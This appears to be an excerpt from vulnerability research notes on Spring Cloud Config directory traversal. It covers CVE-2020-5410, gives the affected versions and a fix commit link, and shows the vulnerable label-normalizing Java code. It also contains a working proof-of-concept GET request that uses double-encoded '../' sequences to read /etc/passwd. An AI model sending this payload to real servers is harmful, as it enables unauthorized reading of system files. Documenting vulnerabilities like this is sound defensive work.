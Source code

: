 ```
    Resource resource = this.resourceRepository.findOne(name, profile, label, path);
    ...
}

private String resolveLabel(String label) {
    if (label != null && label.contains("(_)")) {
        label = label.replace("(_)", "/");
    }
    return label;
}
```

#### CVE-2020-5410 Directory Traversal
Affected Version: < 2.2.2 or 2.1.7

Diff: https://github.com/spring-cloud/spring-cloud-config/commit/1c01d11b74ca08d04e89d935f4cafe1bd0e57c3c

POC:
```
GET /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23/222/11
```
Factor:
```
public Environment getEnvironment(String name, String profiles, String label, boolean includeOrigin) {
    name = Environment.normalize(name);
    label = Environment.normalize(label);
    Environment environment = this.repository.findOne(name, profiles, label, includeOrigin);
    ...
}
public static String normalize(String s) {
    return s != null && s.contains("(_)") ? s.replace("(_)", "/") : s;
}
```
Conf同CVE-2020-5405


